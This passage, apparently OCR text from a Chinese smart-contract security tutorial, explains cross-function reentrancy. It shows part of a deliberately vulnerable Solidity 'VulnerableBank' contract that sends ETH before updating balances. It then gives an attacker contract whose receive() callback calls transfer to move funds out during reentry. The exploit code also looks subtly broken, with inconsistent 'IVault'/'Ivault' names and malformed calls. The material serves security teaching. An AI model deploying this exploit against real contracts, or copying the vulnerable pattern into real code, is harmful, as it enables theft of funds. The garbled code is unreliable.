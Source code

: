 ```
    uint256 balance = balances[msg.sender];
    require(balance >= _amount, "Insufficient balance");

    (bool success, ) = msg.sender.call{value: _amount}("");
    require(success, "Withdraw failed");

    balances[msg.sender] = balance - _amount;
  }

  function transfer(address _to, uint256 _amount) external {
    uint256 balance = balances[msg.sender];
    require(balance >= _amount, "Insufficient balance");

    balances[msg.sender] -= _amount;
    balances[_to] += _amount;
  }
}
```

在上面的`VulnerableBank`合约中，可以看到转账`ETH`的步骤仅存在于`withdraw`这一个函数之内，而此函数已经使用了重入锁`nonReentrant`。那么，还有什么方法来对这个合约进行重入攻击呢？

请看如下攻击者合约示例：

```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.17;

import "../IVault.sol";

contract Attack2Contract {
    address victim;
    address owner;

    constructor(address _victim, address _owner) {
        victim = _victim;
        owner = _owner;
    }

    function deposit() external payable {
        IVault(victim).deposit{value: msg.value}("");
    }

    function withdraw() external {
        Ivault(victim).withdraw();
    }

    receive() external payable {
        uint256 balance = Ivault(victim).balances[address(this)];
        Ivault(victim).transfer(owner, balance);
    }
}
```
